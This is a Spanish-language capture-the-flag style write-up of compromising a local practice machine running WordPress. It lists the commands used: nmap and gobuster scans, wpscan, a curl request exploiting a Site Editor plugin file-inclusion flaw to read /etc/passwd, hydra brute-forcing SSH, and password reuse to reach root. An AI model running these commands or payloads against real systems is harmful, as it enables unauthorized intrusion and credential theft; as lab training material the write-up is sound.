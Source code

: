```yaml
---
layout: post
title: "Colletions"
date: 2024-12-3
categories: [pentesting]
image: /assets/images/imagen.jpg
---
```

![[Pasted image 20241126143259.png]](/imagenes/Pasted%20image%2020241126143259.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20241126143428.png]](/imagenes/Pasted%20image%2020241126143428.png)

entramos en el navegador 

![[Pasted image 20241126143553.png]](/imagenes/Pasted%20image%2020241126143553.png)

buscamos directorios con goubuster `gobuster dir -u "http://172.17.0.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` 

![[Pasted image 20241126143720.png]](/imagenes/Pasted%20image%2020241126143720.png)


![[Pasted image 20241126143741.png]](/imagenes/Pasted%20image%2020241126143741.png)

si interactuamos con el sitio web debemos anadir el colletions.dl al host `sudo nano /etc/hosts`  control O, control x luego enter
luego busco directorios en la nueva direccion

![[Pasted image 20241126144527.png]](/imagenes/Pasted%20image%2020241126144527.png)
![[Pasted image 20241126144630.png]](/imagenes/Pasted%20image%2020241126144630.png)

al ver que es wordprees tarto de buscar vulneravilidades con wpscan `wpscan --url http://collections.dl/wordpress/ -e u`     

![[Pasted image 20241126145500.png]](/imagenes/Pasted%20image%2020241126145500.png)
![[Pasted image 20241126145523.png]](/imagenes/Pasted%20image%2020241126145523.png)

buscamos un sploit para el plugin
`searchsploit site editor 1.1`

![[Pasted image 20241126145643.png]](/imagenes/Pasted%20image%2020241126145643.png)

en sploit db encontramos como vulnerar ese plugin 

![[Pasted image 20241126145734.png]](/imagenes/Pasted%20image%2020241126145734.png)

curl "http://172.17.0.2/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd" 

![[Pasted image 20241126145827.png]](/imagenes/Pasted%20image%2020241126145827.png)

encontramos los usuarios dbadmin, root y el anteriormente encontrado chocolate usamos hydra para encontrar una contrasena para chocolate
`hydra -l chocolate -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`  
    
![[Pasted image 20241126145956.png]](/imagenes/Pasted%20image%2020241126145956.png)

entramos por ssh  vemos que no tenemos permisos sudo y en el directorio tmp encontramos una base de datos mongo recordamos mongo corre en el puerto 27017

![[Pasted image 20241126150107.png]](/imagenes/Pasted%20image%2020241126150107.png)

`mongo --host 172.17.0.2:27017` este comando desde la maquina atacante se debe instalar mongo para que funcione 

![[Pasted image 20241126154311.png]](/imagenes/Pasted%20image%2020241126154311.png)

entramos desde el ssh con las nuevas credenciales y vemos que el usuario root tiene la misma contrasena que el dbadmin

![[Pasted image 20241126154456.png]](/imagenes/Pasted%20image%2020241126154456.png)

